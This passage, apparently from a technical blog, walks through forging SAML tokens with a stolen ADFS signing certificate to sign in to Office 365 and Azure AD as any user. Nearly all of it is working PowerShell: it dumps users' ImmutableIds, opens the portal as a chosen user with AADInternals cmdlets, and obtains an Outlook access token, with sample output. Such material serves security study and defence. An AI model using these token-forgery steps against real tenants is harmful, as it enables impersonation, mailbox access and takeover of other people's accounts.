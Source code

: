 To get users and immutable id's from Azure AD using MsOnline PS module:
{{< highlight powershell >}}
# Get ImmutableIds
Get-MsolUser | select UserPrincipalName,ImmutableId
{{< /highlight >}}

To get users and immutable id's from on-prem AD using AzureAD PS module:
{{< highlight powershell >}}
# Get ImmutableIds
Get-ADUser -Filter * | select UserPrincipalname,@{Name = "ImmutableId" ; Expression = { "$([Convert]::ToBase64String(([guid]$_.ObjectGuid).ToByteArray())) "}}
{{< /highlight >}}

```
UserPrincipalname    ImmutableId              
-----------------    -----------              
AlexW@company.com    Ryo4MuvXW0muelHOefJ9yg== 
AllanD@company.com   Eo+jOAQegUi6rEy8+Yu1Rg== 
DiegoS@company.com   cl/bTG5zJku9VynOaXYaeQ== 
IsaiahL@company.com  iZaESRicxECDk5bN7gZhPg== 
JoniS@company.com    iGyyi+gq40u409PXjE3yRg== 
LynneR@company.com   QpHd34ay4UKo0whX6hui3g== 
MeganB@company.com   31YCEbfrMUCefem7zlPYTg== 
NestorW@company.com  jyEyYWLzKkSpq3bERRG+PQ== 
PattiF@company.com   xTuqzBwFbUePyPGRRA1R4g== 
SamiL@company.com    VlUqJm8rrUeAhrhJGIhYsQ== 
MarkR@company.com    J1OAD14fgEWTMjLqQL5+/g== 
```

Now we can login as any user whose ImmutableId is known. The following command will open a Chrome browser and log the user automatically in.
{{< highlight powershell >}}
# Open Office 365 portal as the given user
Open-AADIntOffice365Portal -ImmutableID iZaESRicxECDk5bN7gZhPg== -PfxFileName .\ADFS_signing.pfx -Issuer $Issuer -Browser Chrome
{{< /highlight >}}

We can also use the same information to get access token to any Office 365/Azure AD service we like:
{{< highlight powershell >}}
# Create a SAML token
$saml = New-AADIntSAMLToken -ImmutableID iZaESRicxECDk5bN7gZhPg== -PfxFileName .\ADFS_signing.pfx -Issuer $Issuer

# Get access token for Outlook
Get-AADIntAccessTokenForEXO -SAMLToken $saml -SaveToCache
{{< /highlight >}}
```
Tenant                               User                Resource                      Client                              
------                               ----                --------                      ------                              
112d9bdc-b677-4a5f-8650-2948dbedb02f IsaiahL@company.com https://outlook.office365.com d3590ed6-52b3-4102-aeff-aad2292ab01c
```
